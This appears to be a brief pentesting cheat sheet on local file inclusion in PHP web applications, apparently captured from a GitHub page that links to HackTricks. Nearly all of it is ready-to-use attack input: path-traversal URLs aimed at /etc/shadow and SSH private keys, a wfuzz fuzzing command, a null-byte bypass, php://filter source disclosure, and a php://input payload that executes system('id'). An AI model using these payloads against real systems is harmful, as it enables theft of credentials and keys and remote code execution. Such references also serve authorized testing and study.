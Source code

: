 ```yaml
---
description: https://book.hacktricks.xyz/pentesting-web/file-inclusion
---
```


# LFI

### Files

```
/etc/passwd
/etc/shadow
/etc/knockd.conf     // port knocking config
```

### LFI with Wfuzz

```
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt --hc 404 --hh 206 http://192.168.0.119/index.php?file=FUZZ
```

### Basic LFI

```
http://url/index.php?page=../../../etc/passwd
http://url/index.php?page=../../../etc/shadow
http://url/index.php?page=../../../home/user/.ssh/id_rsa.pub
http://url/index.php?page=../../../home/user/.ssh/id_rsa
http://url/index.php?page=../../../home/user/.ssh/authorized_keys
```

### **Null byte (%00)**

```
http://url/index.php?page=../../../etc/passwd%00
```

### php://filter

```
http://url/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://url/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

### input:// <a href="#wrapper-input" id="wrapper-input"></a>

```
http://url/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```
